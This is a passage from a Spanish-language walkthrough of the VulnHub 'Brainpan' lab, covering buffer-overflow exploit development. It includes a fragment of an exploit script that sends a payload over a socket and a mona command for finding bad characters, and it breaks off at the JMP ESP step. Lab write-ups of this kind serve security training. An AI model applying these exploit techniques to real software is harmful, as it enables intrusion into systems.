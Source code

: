 ```python
  s.connect((ip, port))
  print("Sending shellcode...")
  s.send(bytes(payload + "\r\n", "latin-1"))
  print("Connected!")
except:
  print("It has not been possible to connect.")
```
{: file="exploit.py" }

Corremos el script y obtenemos el resultado del ESP.

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-27.png)
_Registro ESP_

Ejecutamos el siguiente comando para compararlos:

```bash
!mona compare -f C:\mona\brainpan\bytearray.bin -a 0x0022F930
```

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-28.png)
_Registro ESP_

Si aparece algún badchar, tenemos que quitarlo del script y del bytearray generado por `mona` y volver a realizar el mismo proceso.

### Pointer (JMP ESP)
